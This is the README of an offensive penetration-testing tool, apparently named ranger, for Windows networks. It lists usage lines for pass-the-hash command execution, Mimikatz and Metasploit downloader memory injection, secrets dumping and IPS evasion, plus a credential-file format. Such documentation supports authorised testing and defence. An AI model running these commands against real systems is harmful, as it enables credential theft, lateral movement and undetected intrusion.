 # ranger
A tool to support security professionals access and interact with remote Microsoft Windows based systems.

This project was conceptualized with the thought process, we did not invent the bow or the arrow, 
just a more efficient way of using it.

Ranger is a command-line driven attack and penetration testing tool, which as the ability to use 
an instantiated catapult server to deliver capabilities against Windows Systems.  As long as a user 
has a set of credentials or a hash set (NTLM, LM, LM:NTLM) he or she can gain access to systems that 
are apart of the trust.

Using this capability a security professional can extract credentials out of memory in clear-text, 
access SAM tables, run commands, execute PowerShell scripts, Windows Binaries, and other tools.  
At this time the tool bypasses the majority of IPS vendor solutions unless they have been custom 
tuned to detect it. The tool was developed using our home labs in an effort to support security 
professionals doing legally and/or contractually supported activities.

More functionality is being added, but at this time the tool uses the community contributions 
from repositories related to the PowerShell PowerView, PowerShell Mimikatz and Impacket teams.  
##Command Execution:
###Find Logged In Users:
ranger.py [-u Administrator] [-p Password1] [-d Domain] --scout

###SMBEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --smbexec -q -v -vv -vvv

###PSEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -q -v -vv -vvv

###PSEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -c "Net User" -q -v -vv -vvv

###WMIEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec -c "Net User"

###WMIEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker

###WMIEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader

###WMIEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe"

###ATEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --atexec -c "Net User" --no-encoder

###ATEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker --no-encoder

###ATEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader --no-encoder

###ATEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe" --no-encoder

###SECRETSDUMP Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --secrets-dump

###Create Pasteable Mimikatz Attack:
ranger.py --invoker -q -v -vv -vvv

###Create Pasteable web_downloader Attack:
ranger.py --downloader -q -v -vv -vvv

###Create Pasteable Executor Attack:
ranger.py --executor -q -v -vv -vvv

##Notes About Usage:
###Cred File Format:
*You can pass it a list of usernames and passwords or hashes in the following format in the same file:
```
username password
username LM:NTLM
username :NTLM
username **NO PASSWORD**:NTLM
PWDUMP
username PWDUMP domain
username password domain
username LM:NTLM domain
username :NTLM  domain
username **NO PASSWORD**:NTLM domain
PWDUMP domain
username PWDUMP domain
```

###Cred File Caveats:
* If you provide domain names in the file they will be used instead of the default WORKGROUP.  
* If you supply the domain name by command line (-d), it will infer that you want to ignore all the domain names in the file.

###Command Line Execution:
* If you do not want to use the file you can pass the details through command line directly.
* If you wish to supply hashes instead of passwords just pass them through the password argument.  
* If they are PWDUMP format and you supply no username it will pull the username out of the hash.  
* If you supply a username it will think that the same hash applies to a different user.

###Targets and Target Lists:
* You can provide a list of targets either by using a target list or through the target option.  
* You can supply multiple target list files by comma separating them and it will aggregate the data and remove duplicates and then exclude your IP address from the default interface or the interface you provide. 
* The tool accepts, CIDR notations, small ranges (192.168.195.1-100) or large ranges (192.168.194.1-192.163.1.1) or single IP addresses.  
* Again just comma separating them by command line or put them in a new line delimited file.

###Exclusions and Exclusion Lists:
* You can exclude targets using the exclude arguments as well, so if you do not touch a little Class C out of a Class A it will figure that out for you.

###Anti-Virus
* Mimikatz, Downloader and Executor use PowerShell memory injection by calling other services and protocols.
* The commands are double encoded and bypass current IPS solutions (even next-gen) unless specifically tuned to catch these attacks.  
* ATEXEC is the only one that currently lands on disk and does not encode, I still have some rewriting to do still.

###NMAP
* The nmap XML feed is still in DRAFT and it is not functioning yet. 
